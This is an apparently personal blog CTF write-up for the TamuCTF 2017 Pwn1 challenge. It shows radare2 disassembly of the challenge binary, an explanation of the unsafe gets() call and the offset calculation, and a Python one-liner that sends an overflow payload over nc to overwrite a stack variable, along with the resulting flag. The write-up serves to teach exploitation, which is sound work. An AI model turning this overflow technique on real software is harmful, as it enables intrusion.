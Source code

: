 ```yaml
---
author:
  email: tzaoh1@gmail.com
  github: https://github.com/tzaoh
  image:
  - /images/avatar-64x64.png
  name:
  - Tzaoh
cardbackground: '#838238'
post_categories:
- CTFs
date: 2017-05-27T18:56:18+02:00
description: a
tags:
- test
title: "TamuCTF 2017 - Pwn 1"
summary: ""
---
```


# [TamuCTF 2017](https://ctf.tamu.edu/)
### Pwn1 - 50 Points

![Pwn1 Challenge Description](/images/TamuCTF2017/pwn1/1-pwn1_description.png)

We are told that there is a binary running remotely and its code is available to download. Lets download and open it with r2.

```bash
$ wget https://ctf.tamu.edu/files/7e968d03d9caa11a2f4f2909bd3cabc9/pwn1
$ r2 pwn1
```

Now that the binary is opened, we need to analyze its content.

```bash
[0xf7721ac0]> aaa		# Analyze
[0xf7721ac0]> afl		# List functions found
.
.
0x0804854b    4 103          sym.print_flag
0x080485b2    4 120          main
.
.
```

Interesting, there is **print_flag** function at `0x0804854b`. Lets see what's inside.

```bash
[0xf771eac0]> s sym.print_flag	# We move to beginning of print_flag function
[0x0804854b]> pdf				# print its code
```
![Pwn1 Open File Function](/images/TamuCTF2017/pwn1/2-pwn1_open_flag.png)


Because of the offsets `0x08048569` and `0x0804856e` we can deduce that the function opens a file called **flag.txt** and prints its content. Fantastic :v:, so we just need to know who will call **print_flag**. This can be figured out through the `axt` command of r2 which stands for "cross reference to" the actual function.

```bash
[0x0804854b]> axt
call 0x8048606 call sym.print_flag in main
```

Cool, so this function will be called from offset `0x8048606` **main**. Lets see whats inside it.

```bash
[0x0804854b]> s main
[0x080485b2]> pdf
```
![Pwn1 Condition](/images/TamuCTF2017/pwn1/3-pwn1_condition.png)

We see that **print_flag** will be called if the condition `local_ch == 0xca11ab1e` is not satisfied. But wait a moment, if we give a closer look to the assembly instrucctions we realized that the only variable we are supposed to edit is **local_27h** through the `gets` function:

![Pwn1 Gets Call](/images/TamuCTF2017/pwn1/4-pwn1_gets_call.png)

So what we need to do? As maybe you know, **gets** is an unsecure function, because it does not check how many characters it must copy in memory when you introduce them. Then if we input more characters than it is supposed store, we will be able to overwrite neighbor local variables!

How can we know the length of the string we must provide? By knowing where the variables are stored onto the stack

![Pwn1 Stack diagram](/images/TamuCTF2017/pwn1/5-pwn1_stack_view.png)

So finally, how many bytes do we need to start writting **local_ch**?
Easy!

`($ebp - 0xC) - ($ebp - 0x27)  = 0x27 - 0xC = 0x1B = 27d` 27 Characters.

```bash
$ python -c 'print("A"*27 + "\x1E\xAB\x11\xCA")' | nc pwn.ctf.tamu.edu 4322
Enter the secret word:
How did you figure out my secret?!
gigem{T00_435Y}
```

Answer: gigem{T00_435Y}

### Complete video

<a href="https://asciinema.org/a/2juhmtxkdf7qrnzbury7rzzjc?autoplay=1"><img src="https://asciinema.org/a/2juhmtxkdf7qrnzbury7rzzjc.png" width="400"/></a>

### Tools used:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [draw.io](https://www.draw.io/) - To draw some graphics.
 * [asciinema](https://asciinema.org) - To record the session.
